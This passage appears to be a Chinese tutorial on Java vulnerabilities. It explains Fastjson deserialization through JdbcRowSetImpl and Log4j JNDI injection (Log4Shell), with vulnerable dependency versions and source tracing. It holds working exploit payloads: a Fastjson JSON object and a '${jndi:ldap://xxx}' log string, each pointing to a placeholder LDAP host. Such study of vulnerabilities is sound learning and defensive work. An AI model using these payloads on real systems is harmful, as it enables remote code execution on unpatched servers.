
可以看到他出发了getName 和 构造函数
那么我们就可以找了能getName和构造方法能造成RCE的类
注意了很关键和前面说的赋值一样
本质是 **“根据 JSON 字符串动态创建对象并赋值”**，完全基于反射实现，不依赖 JDK 的序列化机制 比如CC的序列化接口
4：找到漏洞类 #
在你传入的文本中fastjson是通过比如你传入
name = “God”
他会加上get并把首字母大写来寻找set方法所以就变成了
setName被执行了
当然是有这个类的就是 JdbcRowSetlmpl
进入后输入alt+7查看方法

public void setAutoCommit(boolean var1) throws SQLException {
if (this.conn != null) {
this.conn.setAutoCommit(var1);
} else {
this.conn = this.connect();
this.conn.setAutoCommit(var1);
}
}
我们想要触发这个set只需要参数 autoCommit就可以了
我们来观看这个代码
在true中有一个connect方法
里面直接有了jndi注入的函数两条
this.getDataSourceName()换为JNDI注入的代码就可以了
private Connection connect() throws SQLException {
if (this.conn != null) {
return this.conn;
} else if (this.getDataSourceName() != null) {
try {
InitialContext var1 = new InitialContext();
DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
所以我们手动构造值传入就可以了
{
"@type" : "com.sun.rowset.JdbcRowSetImpl",
"dataSourceName": "ldap://xxxx",
"autoCommit": true
}

三：LOG4J-jndi注入 #
1：条件与POC #
依赖如下小于2.14
<dependencies>
<dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-core</artifactId>
<version>2.14.1</version>
</dependency>
<dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-api</artifactId>
<version>2.14.1</version>
</dependency>
</dependencies>
或者如果你没有源码--------------------------
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
<modelVersion>4.0.0</modelVersion>
<groupId>com.yr</groupId>
<artifactId>log4jjj</artifactId>
<version>1.0-SNAPSHOT</version>
<properties>
<maven.compiler.source>8</maven.compiler.source>
<maven.compiler.target>8</maven.compiler.target>
<project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
</properties>
<dependencies>
<!-- Log4j 核心二进制包（编译运行必需） -->
<dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-core</artifactId>
<version>2.14.1</version>
<!-- 不带 classifier，默认是二进制包 -->
</dependency>
<!-- Log4j 核心源码包（仅用于查看源码，可选） -->
<dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-core</artifactId>
<version>2.14.1</version>
<classifier>sources</classifier>
<scope>provided</scope> <!-- 标记为“已提供”，不参与打包 -->
</dependency>
<!-- Log4j API 二进制包（编译运行必需） -->
<dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-api</artifactId>
<version>2.14.1</version>
</dependency>
<!-- Log4j API 源码包（仅用于查看源码，可选） -->
<dependency>
<groupId>org.apache.logging.log4j</groupId>
<artifactId>log4j-api</artifactId>
<version>2.14.1</version>
<classifier>sources</classifier>
<scope>provided</scope>
</dependency>
</dependencies>
</project>
在resource下面创建log4j2.xml 配置文件
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
<Appenders>
<!-- 输出到控制台 -->
<Console name="Console" target="SYSTEM_OUT">
<PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
</Console>
</Appenders>
<Loggers>
<!-- 根日志器，级别设为INFO -->
<Root level="info">
<AppenderRef ref="Console"/>
</Root>
</Loggers>
</Configuration>
代码如下
$表示里面是需要被解析的变量
jndi：表示用jndi组件去解析
ldap表示jndi注入协议如rmi
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class test {
public static final Logger logger = LogManager.getLogger(test.class);
public static void main(String[] args) {
logger.info("hello world");
logger.info("${jndi:ldap://xxx}");
}
}

2：跟踪调试 #
JNDI注入要看InitialContext.java下面的lookup方法
我们打一个断点然后调试发现确实经过了

发现变量覆盖过去
通过变量赋值${}解析中间数值调用了JNDIlookup
当变量表达式以 jndi:开头时（如${jndi:ldap://…}），Log4j 会调用 JndiLookup类的lookup方法，该类实现了Lookup 接口，专门处理 JNDI 相关的变量解析。
@Override
public String lookup(final LogEvent event, final String key) {
if (key == null) {
return null;
}
final String jndiName = convertJndiName(key);
try (final JndiManager jndiManager = JndiManager.getDefaultManager()) {
return Objects.toString(jndiManager.lookup(jndiName), null);
} catch (final NamingException e) {
LOGGER.warn(LOOKUP, "Error looking up JNDI resource [{}].", jndiName, e);
return null;
}